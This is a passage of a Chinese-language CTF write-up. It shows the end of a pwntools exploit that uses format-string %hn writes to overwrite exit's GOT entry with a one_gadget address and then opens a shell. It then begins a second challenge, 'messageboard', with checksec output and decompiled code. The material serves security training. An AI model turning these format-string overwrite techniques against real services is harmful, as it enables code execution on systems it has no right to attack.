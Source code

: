 ```python
payload = payload.ljust(0x20, '\x00')
print repr(payload)
p.send(payload)

info('THIRD WORD')
info(hex((one_gadget >> 32) & 0xFFFF))
p.recvuntil('input your name: ')
p.sendline(p64(exit_got + 4))
p.recvuntil('leave a msg: ')
payload = '%{}c%12$hn'.format(str((one_gadget >> 32) & 0xFFFF))
payload = payload.ljust(0x20, '\x00')
print repr(payload)
p.send(payload)

info('FOURTH WORD')
info(hex((one_gadget >> 48) & 0xFFFF))
p.recvuntil('input your name: ')
p.sendline(p64(exit_got + 6))
p.recvuntil('leave a msg: ')
if (one_gadget >> 48) & 0xFFFF != 0:
    payload = '%{}c%12$hn'.format(str((one_gadget >> 48) & 0xFFFF))
else:
    payload = '%12$hn'
payload = payload.ljust(0x20, '\x00')
print repr(payload)
p.send(payload)

p.recvuntil('input your name: ')
p.sendline('root')
p.recvuntil('leave a msg: ')
p.sendline('%p')
p.recvuntil('\n')
success('>>> PWNED BY ASSASSINQ <<<')
p.interactive()
```

## messageboard

这题大佬们都用堆做，然而我一点都不会。后来神仙 pizza 给了一种 `format string` 的超简单做法。

```shell
[*] '/home/assassinq/Desktop/messageboard'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

拖进 ida 里，典型的堆题的形式，这里只看第四个选项：

```cpp
unsigned __int64 getshell()
{
  int fd; // ST04_4
  __int64 v2; // [rsp+8h] [rbp-58h]
  __int128 v3; // [rsp+28h] [rbp-38h]
  __int64 *v4; // [rsp+38h] [rbp-28h]
  char *v5; // [rsp+40h] [rbp-20h]
  __int64 (__fastcall *v6)(_QWORD, _QWORD); // [rsp+48h] [rbp-18h]
  unsigned __int64 v7; // [rsp+58h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  printf("guess a number:");
  v3 = 0uLL;
```